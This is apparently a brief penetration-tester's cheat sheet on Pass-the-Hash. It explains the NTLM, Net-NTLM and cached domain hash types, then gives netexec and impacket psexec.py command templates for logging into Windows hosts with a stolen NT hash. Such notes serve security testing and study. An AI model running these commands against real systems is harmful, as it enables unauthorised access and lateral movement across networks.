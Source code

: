 # Pass the Hash

## Brief

* **NTLM** (aka NT) hashes are **local users hashes.**
* **NTMLv1/v2** (aka Net-NTLMv1/v2) hashes are used for **network authentication**.
* **MSCASHv1/v2** (aka DCCv1/v2) are **domain users hashes**.

> You **can** perform Pass-the-Hash on **NTLM** hashes. You **cannot** perform Pass-the-Hash on **Net-NTLM** hashes.

NTLM hashes are stored in the **Security Account Manager** (SAM) database and in Domain Controller's **NTDS.dit** database.

## Attack

```bash
nxc $ip_range/$CIDR -u $user -H $hash(only NT part) --local

psexec.py $user:@$ip_addr -hashes $hash
```

